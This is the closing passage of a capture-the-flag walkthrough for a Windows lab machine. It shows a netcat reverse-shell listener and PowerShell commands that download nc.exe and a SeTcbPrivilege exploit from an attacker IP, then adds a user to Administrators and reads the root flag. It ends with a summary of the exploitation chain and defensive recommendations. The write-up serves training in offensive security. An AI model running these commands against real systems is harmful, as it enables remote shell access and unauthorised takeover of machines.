


Output: `nt authority\local service`.

### 4.3 Reverse shell and `SeTcbPrivilege` → Administrators

Generate a PowerShell reverse shell (revshells.com → Base64) and catch it on port `443`:

```bash
nc -lvnp 443
```




`whoami /all` as LOCAL SERVICE shows `SeTcbPrivilege` (Act as part of the operating system) present but disabled:



Host `nc.exe` and `TcbElevation-x64.exe` (from [SeTcbPrivilege-Abuse](https://github.com/b4lisong/SeTcbPrivilege-Abuse)), download them into `htdocs`, then add `enox` to Administrators:

```powershell
powershell -c "Invoke-WebRequest http://10.10.15.14:8000/nc.exe -OutFile C:\xampp\htdocs\nc.exe"
powershell -c "Invoke-WebRequest http://10.10.15.14:8000/SeTcbPrivilege-Abuse/TcbElevation-x64.exe -OutFile C:\xampp\htdocs\TcbElevation-x64.exe"
.\TcbElevation-x64.exe h4ck3d "C:\Windows\System32\cmd.exe /c net localgroup Administrators enox /add"
net localgroup Administrators
```




Reconnect over SSH as `enox`, confirm `BUILTIN\Administrators`, and read the root flag:

```cmd
whoami /groups
type C:\Users\Administrator\Desktop\root.txt
```



🏁 **Root flag obtained**: `cd8acb0d752fdc07e03e105c5541ff28`

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Enumerate HTTP hiring upload → malicious `.asx` → Responder NetNTLMv2 for `enox`.
2. Crack `1234virus@` → SSH → user flag; review `review.ps1` / XAMPP upload MD5 logic.
3. NTFS junction of predictable upload path → `htdocs` → PHP webshell as LOCAL SERVICE.
4. Abuse `SeTcbPrivilege` (`TcbElevation-x64.exe`) to add `enox` to Administrators → root flag.

---
## Defensive Recommendations

- Do not auto-open untrusted media/playlist uploads with Windows Media Player; isolate review workers and block outbound SMB from that context.
- Store uploads outside the web root with non-guessable paths; deny create-junction / symlink rights on upload directories.
- Avoid running Apache as LOCAL SERVICE with `SeTcbPrivilege`; remove unused privileges and monitor `net localgroup Administrators` changes.
- Keep XAMPP default files (`passwords.txt`) out of production trees and restrict interactive SSH to least privilege.
